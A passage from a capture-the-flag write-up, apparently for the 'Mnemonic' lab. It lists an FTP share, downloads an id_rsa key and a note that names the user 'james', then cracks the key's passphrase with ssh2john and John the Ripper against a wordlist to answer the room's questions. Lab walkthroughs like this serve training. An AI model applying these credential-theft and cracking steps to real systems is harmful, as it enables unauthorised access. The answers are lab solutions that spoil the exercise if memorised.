 ~~~
drwxr-xr-x    2 0        0            4096 Jul 13 21:16 data-5
drwxr-xr-x    2 0        0            4096 Jul 13 21:17 data-6
drwxr-xr-x    2 0        0            4096 Jul 13 21:17 data-7
drwxr-xr-x    2 0        0            4096 Jul 13 21:17 data-8
drwxr-xr-x    2 0        0            4096 Jul 13 21:17 data-9
226 Directory send OK.
ftp> cd data-4
250 Directory successfully changed.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    4 0        0            4096 Jul 14 18:05 .
drwx------   12 1003     1003         4096 Jul 14 18:22 ..
drwxr-xr-x    2 0        0            4096 Jul 14 18:04 3
drwxr-xr-x    2 0        0            4096 Jul 14 18:04 4
-rwxr-xr-x    1 1001     1001         1766 Jul 13 20:34 id_rsa
-rwxr-xr-x    1 1000     1000           31 Jul 13 21:18 not.txt
226 Directory send OK.
~~~

We can download the files using the `get <file>` command. The `not.txt` file seems to indicate the existence of a user named `james`:

~~~
kali@kali:/data/mnemonic/files$ cat not.txt 
james change ftp user password
~~~

Answer: `james`

# What is the ssh password?

The second file (`id_rsa`) that we downloaded from the FTP service is a SSH private key. It is password protected:

~~~
kali@kali:/data/mnemonic/files$ chmod 400 id_rsa 
kali@kali:/data/mnemonic/files$ ssh -p 1337 -i id_rsa james@mnemonic.thm
load pubkey "id_rsa": invalid format
The authenticity of host '[mnemonic.thm]:1337 ([10.10.202.26]:1337)' can't be established.
ECDSA key fingerprint is SHA256:nwJynJn7/m7+VP5h40EAKHef3qSEfKTIZsdI8GH+LgI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[mnemonic.thm]:1337,[10.10.202.26]:1337' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
~~~

Let's use John once more to brute force the password:

~~~
kali@kali:/data/mnemonic/files$ /data/src/john/run/ssh2john.py id_rsa > ssh.hash
kali@kali:/data/mnemonic/files$ /data/src/john/run/john ssh.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Note: This format may emit false positives, so it will keep trying even after finding a
possible candidate.
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bluelove         (id_rsa)
1g 0:00:00:04 DONE (2020-09-30 18:38) 0.2100g/s 3012Kp/s 3012Kc/s 3012KC/sa6_123..*7¡Vamos!
Session completed. 
~~~
